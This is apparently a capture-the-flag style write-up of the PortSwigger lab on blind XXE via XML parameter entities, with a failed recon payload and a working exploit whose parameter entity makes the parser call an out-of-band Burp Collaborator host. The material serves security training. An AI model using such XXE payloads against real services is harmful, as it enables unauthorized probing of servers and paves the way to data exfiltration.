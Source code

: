 ```yaml
---
title: 'Lab: Blind XXE with out-of-band interaction via XML parameter entities'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/Blind XXE"
---
```


# Lab: Blind XXE with out-of-band interaction via XML parameter entities
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
* Goal: To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Background
這一題會用到Parameter Entity，也就是當server端擋掉外部的entity輸入時，可以直接在`DOCTYPE`中直接Reference，也就是利用`%`這個字元達到這個效果

## Recon
* Create a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/H1hEjtUNh.png)
    Seems not work properly...


## Exp
* Use Parameter Entity
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://a1cby8s3b3bvzxlb8cfaw4jvqmwfk4.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/rJh0sYLEn.png)

---
![](https://hackmd.io/_uploads/rk7H2FL42.png)
:::

## Reference
[XXE Lab Breakdown: Blind XXE with out-of-band interaction via XML parameter entities](https://youtu.be/xjcSMFKVTW4)
[Lab: Blind XXE with out-of-band interaction via XML parameter entities](https://www.cnblogs.com/Zeker62/p/15190054.html)